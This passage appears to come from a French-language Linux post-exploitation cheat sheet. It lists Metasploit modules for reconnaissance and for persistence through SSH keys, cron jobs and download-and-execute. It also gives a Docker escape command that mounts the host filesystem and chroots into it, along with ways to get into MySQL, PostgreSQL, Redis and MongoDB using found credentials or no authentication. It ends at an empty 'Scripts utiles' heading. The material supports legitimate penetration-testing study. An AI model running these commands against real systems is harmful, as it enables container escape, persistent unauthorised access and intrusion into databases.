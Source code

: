 ### Modules de reconnaissance
| Module | Description |
|--------|-------------|
| `post/linux/gather/enum_configs` | Énumération des configurations |
| `post/linux/gather/enum_network` | Énumération réseau |
| `post/linux/gather/enum_system` | Énumération système |
| `post/linux/gather/checkvm` | Détection de virtualisation |
| `post/multi/recon/local_exploit_suggester` | Suggestion d'exploits |

### Modules de persistence
| Module | Description |
|--------|-------------|
| `post/linux/manage/sshkey_persistence` | Persistence via clé SSH |
| `post/linux/manage/download_exec` | Téléchargement et exécution |
| `exploit/linux/local/cron_persistence` | Persistence via cron |

---

## 🔧 12. Techniques avancées

### Docker Escape
| Commande | Description |
|----------|-------------|
| `ls -la /var/run/docker.sock` | Socket Docker accessible |
| `docker ps` | Conteneurs en cours |
| `docker run -v /:/mnt --rm -it alpine chroot /mnt sh` | Montage du système hôte |

### Exploitation de services
| Service | Technique |
|---------|-----------|
| **MySQL** | `mysql -u root -p` avec credentials trouvés |
| **PostgreSQL** | `psql -U postgres` |
| **Redis** | `redis-cli` puis commandes Redis |
| **MongoDB** | `mongo` sans authentification |

---

## 📝 13. Scripts utiles
